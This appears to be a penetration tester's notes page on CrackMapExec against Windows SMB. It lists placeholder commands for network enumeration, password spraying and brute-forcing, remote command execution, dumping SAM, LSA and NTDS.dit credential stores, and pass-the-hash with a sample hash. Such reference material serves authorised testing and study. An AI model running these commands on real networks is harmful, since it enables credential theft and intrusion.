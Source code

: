 ```yaml
---
tags:
  - linux
  - password-policy
  - SAM-registry-hive
  - lsass
  - smb
---
```

**OUTDATED!** Newer one is [[nxc]]
Attacks: #PtH 
# SMB
```bash
$ crackmapexec smb <IP> --shares -u '' -p ''
```
## Enumerate Network for Systems
```
$ crackmapexec smb <IP> <CIDR>
```
## Test Credentials across Network
```
$ crackmapexec smb <IP> <CIDR> -u <USER> -p <PASS> --sessions
```
>NOTE: Having SMB interaction does not necessarily mean we have full access to them.
## Useful Flags
- `--continue-on-success`: To keep on bruteforcing after a successful login.
- `--local-auth`: If the target is a non-domain joined system.
## SMBExec
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASSWORD> -x <COMMAND> --exec-method smbexec
```
>NOTE: If the `--exec-method` is not defined, CME will try to execute the `atexec` method by default
## Extract
### Dump LSA/SAM Remotely
```shell-session
$ crackmapexec smb <IP> --local-auth -u <USER> -p <PASS> --<lsa/sam>
```
### Dump NTDS.dit
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASS> --ntds
```
### Logged-on Users
```shell-session
$ crackmapexec smb <CIDR-RAMGE> -u administrator -p <PASSWORD> --loggedon-users
```
### Password Policy
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASS> --pass-pol
```
## Bruteforce
### Bruteforce RIDs
```shell-session
$ crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```
### Bruteforce Username/Passwords
```shell-session
$ crackmapexec smb <IP> -u </path/to/username> -p </path/to/passwords>
```

## Pass the Hash
```shell-session
# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 [-x <COMMAND>]
```
